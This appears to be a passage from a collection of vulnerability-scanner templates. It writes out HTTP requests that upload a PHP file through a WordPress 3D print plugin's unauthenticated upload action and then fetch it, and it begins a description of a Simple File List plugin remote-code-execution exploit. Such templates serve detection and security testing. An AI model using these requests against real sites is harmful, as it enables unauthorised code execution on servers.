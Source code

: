 ```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------54331109111293931601238262353

-----------------------------54331109111293931601238262353
Content-Disposition: form-data; name="action"

p3dlite_handle_upload
-----------------------------54331109111293931601238262353
Content-Disposition: form-data; name="file"; filename={{randstr}}.php
Content-Type: text/php

<?php echo '3DPrint-arbitrary-file-upload'; ?>
-----------------------------54331109111293931601238262353--

```

### Step - 2

```
GET /wp-content/uploads/p3d/{{randstr}}.php HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_2, "text/html")
  2. status_code_2 == 200
  3. contains(body_2, '3DPrint-arbitrary-file-upload')
- condition - and

---

# WordPress SimpleFilelist - Remote Code Execution

## Description

- Simple File List WordPress plugin was found to be vulnerable to an unauthenticated arbitrary file upload leading to remote code execution. The Python exploit first uploads a file containing PHP code but with a png image file extension. A second request is sent to move (rename) the png file to a PHP file.

- severity - critical
- tags - wpscan,wordpress,wp-plugin,rce,intrusive,fileupload,python
